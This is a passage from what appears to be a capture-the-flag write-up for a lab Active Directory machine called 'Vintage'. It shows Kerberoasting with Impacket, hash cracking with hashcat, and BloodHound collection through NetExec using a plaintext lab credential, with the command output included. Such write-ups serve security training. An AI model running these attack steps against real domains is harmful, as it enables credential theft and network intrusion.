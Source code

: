 ```console
```

The output looks better. The reason for the `STATUS_NOT_SUPPORTED` error is that NTLM authentication is disabled on the domain. Luckily NetExec can easily authenticate over Kerberos. I performed a Kerberoasting attack and found 3 machine hashes and one service account hash.

```console
$ GetUserSPNs.py vintage.htb/p.rosa -usersfile users.txt -outputfile kerberoast.hashes
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Password:Rosaisbest123
<SNIP>

$ hashcat -m 13100 kerberoast.hashes $ROCKYOU
```

Cracking those hashes with a standard `rockyou.txt` wordlist does not work. Then I proceeded to run BloodHound.

```console
$ nxc ldap dc01.vintage.htb -u P.Rosa -p Rosaisbest123 -k --bloodhound --dns-server 10.10.11.45 -c All
LDAP        dc01.vintage.htb 389    DC01             [*] None (name:DC01) (domain:vintage.htb)
LDAP        dc01.vintage.htb 389    DC01             [+] vintage.htb\P.Rosa:Rosaisbest123
LDAP        dc01.vintage.htb 389    DC01             Resolved collection methods: group, localadmin, session, trusts
LDAP        dc01.vintage.htb 389    DC01             Using kerberos auth without ccache, getting TGT
LDAP        dc01.vintage.htb 389    DC01             Done in 00M 04S
LDAP        dc01.vintage.htb 389    DC01             Compressing output into /home/s3rp3nt/.nxc/logs/DC01_dc01.vintage.htb_2024-12-31_113029_bloodhound.zip
```

## Foothold
The first thing I found was that the computer account `FS01$` belongs to the `PRE-WINDOWS 2000` group. 

![](/assets/images/writeups/vintage/BH-FS01-Member.png)
